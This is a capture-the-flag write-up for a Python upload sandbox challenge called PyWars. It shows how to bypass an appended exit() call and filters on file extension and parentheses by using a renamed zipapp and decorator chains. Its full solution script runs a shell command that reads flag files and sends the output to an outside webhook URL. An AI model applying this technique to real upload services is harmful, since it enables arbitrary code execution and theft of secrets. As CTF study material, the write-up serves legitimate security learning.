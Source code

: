 # ♖ PyWars ♖
> Author: 堇姬Naup

## analyze
Go to read source code.
You can upload one python file, it will add `exit()\n` on your upload's file and use `python3 <your upload python file>`.
So if you can bypass code which it add. You will execute any python's code.

Let me look how to bypass.
Read python's document, we will read this
https://docs.python.org/3.14/library/zipapp.html

You can pack your `.py` to `.pyz`
If we add some bytes in front of `zip's magic number`, it still can be execute.
And then pyz can use `python3 script.pyz`.

```
00000000: 504b 0304 1400 0000 0000 9753 7f5a dc1b  PK.........S.Z..
00000010: 5faa 2e02 0000 2e02 0000 0b00 0000 5f5f  _.............__
```
So we write code at `script/__main__.py`, and pack it to pyz.

OK, let me review code.
It have filter, and just upload `.py`
But we can use `script.pyz.py`, it can bypass its filter. And if your upload's file format is `.pyz`, it will be executed no matter how its file extension

And it filter `(` and `)`, we can use python's decorator to bypass it.
For example:
```c
cmd2 = lambda a: "cat /app/flags/flag*"

@popen
@cmd2
class flag:pass
```

This code is `popen("cat /app/flags/flag*")`
No curl or wget, so we use `urllib.request`, and send flag on your server.


## script
run.sh
```sh
python3 -m zipapp script
mv script.pyz script.pyz.py
```

script/\_\_main\_\_.py
```py
from os import popen
from urllib.request import urlopen

token = "TomorinIsCuteAndILovePython" 
url = "https://webhook.site/111d99e4-8095-4b6a-bf04-e4a79209bce2/"

cmd2 = lambda a: "cat /app/flags/flag*"
func2 = lambda f: [x[:-1] for x in f][0]

@func2
@popen
@cmd2
class flag:pass

flagurl = url + flag
urls = lambda f: flagurl

@urlopen
@urls
class requestf:pass
```
